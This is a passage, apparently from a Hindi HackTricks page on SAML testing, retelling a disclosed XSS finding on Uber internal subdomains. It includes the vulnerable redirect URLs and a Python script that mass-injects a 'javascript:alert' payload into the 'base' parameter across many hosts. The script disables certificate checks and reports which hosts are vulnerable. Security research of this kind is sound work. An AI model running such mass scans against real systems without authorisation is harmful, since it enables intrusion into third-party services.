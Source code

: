 ([मूल शोध यहां देखें](https://blog.fadyothman.com/how-i-discovered-xss-that-affects-over-20-uber-sub
```
https://carbon-prototype.uberinternal.com:443/oidauth/logout
```
यह एक लॉगआउट पेज है, मैंने ऊपर दिए गए लिंक को खोला और यह मुझे निम्नलिखित पेज पर रीडायरेक्ट कर दिया।
```
https://carbon-prototype.uberinternal.com/oidauth/prompt?base=https%3A%2F%2Fcarbon-prototype.uberinternal.com%3A443%2Foidauth&return_to=%2F%3Fopenid_c%3D1542156766.5%2FSnNQg%3D%3D&splash_disabled=1
```
### सामूहिक शोषण

[**SAMLExtractor**](https://github.com/fadyosman/SAMLExtractor) का उपयोग करते हुए जो यूआरएल की सूची ले सकता है और फिर आपको वापस कॉलबैक (SAML consume) यूआरएल देता है, मैंने `uberinternal.com` के सभी सबडोमेन्स को इस उपकरण में डालने का निर्णय लिया ताकि देख सकूँ कि क्या अन्य डोमेन्स भी उसी लाइब्रेरी का उपयोग कर रहे हैं और वहाँ थे।

जो मैंने अगला किया वह एक स्क्रिप्ट बनाना था जो कमजोर पेज `oidauth/prompt` को कॉल करता है और XSS का प्रयास करता है और अगर मेरा इनपुट प्रतिबिंबित होता है तो यह मुझे एक अच्छा कमजोर संदेश देता है।
```python
import requests
import urllib3
urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)
from colorama import init ,Fore, Back, Style
init()

with open("/home/fady/uberSAMLOIDAUTH") as urlList:
for url in urlList:
url2 = url.strip().split("oidauth")[0] + "oidauth/prompt?base=javascript%3Aalert(123)%3B%2F%2FFady&return_to=%2F%3Fopenid_c%3D1520758585.42StPDwQ%3D%3D&splash_disabled=1"
request = requests.get(url2, allow_redirects=True,verify=False)
doesit = Fore.RED + "no"
if ("Fady" in request.content):
doesit = Fore.GREEN + "yes"
print(Fore.WHITE + url2)
print(Fore.WHITE + "Len : " + str(len(request.content)) + "   Vulnerable : " + doesit)
```
## संदर्भ

ये हमले [https://epi052.gitlab.io/notes-to-self/blog/2019-03-13-how-to-test-saml-a-methodology-part-two/](https://epi052.gitlab.io/notes-to-self/blog/2019-03-13-how-to-test-saml-a-methodology-part-two/) से प्राप्त किए गए थे।\
आप अतिरिक्त संसाधन और लेखन [https://epi052.gitlab.io/notes-to-self/blog/2019-03-16-how-to-test-saml-a-methodology-part-three/](https://epi052.gitlab.io/notes-to-self/blog/2019-03-16-how-to-test-saml-a-methodology-part-three/) में पा सकते हैं।

<details><summary><strong>AWS हैकिंग सीखें शून्य से नायक तक</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong> के साथ!</strong></summary></details>

